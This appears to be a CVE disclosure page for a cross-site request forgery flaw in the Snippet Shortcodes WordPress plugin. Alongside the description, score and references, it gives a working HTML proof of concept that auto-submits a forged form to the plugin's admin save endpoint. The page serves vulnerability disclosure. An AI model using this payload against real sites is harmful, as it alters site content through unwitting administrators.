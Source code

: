 ```yaml
---
layout: page
title: CVE-2024-4543
subtitle: Snippet Shortcodes <= 4.1.4 - Cross-Site Request Forgery
---
```

## Description
The Snippet Shortcodes plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 4.1.4. This is due to missing or incorrect nonce validation when adding or editing shortcodes. This makes it possible for unauthenticated attackers to modify shortcodes via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 4.1.4

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / x.com/aillesim_ -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=sh-cd-shortcode-variables-your-shortcodes&action=save" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="slug" value="Misellll&lt;3" />
      <input type="hidden" name="previous&#95;slug" value="" />
      <input type="hidden" name="data" value="&lt;img&#32;class&#61;&quot;alignnone&#32;size&#45;medium&quot;&#32;src&#61;&quot;https&#58;&#47;&#47;cdn&#46;antaranews&#46;com&#47;cache&#47;1200x800&#47;2022&#47;08&#47;10&#47;Misellia&#45;Publicity&#46;jpg&quot;&#32;width&#61;&quot;1200&quot;&#32;height&#61;&quot;800&quot;&#32;&#47;&gt;" />
      <input type="hidden" name="disabled" value="0" />
      <input type="hidden" name="submit&#95;button" value="Save&#32;Shortcode" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/changeset/3110951?contextall=1
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/shortcode-variables/snippet-shortcodes-414-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4543






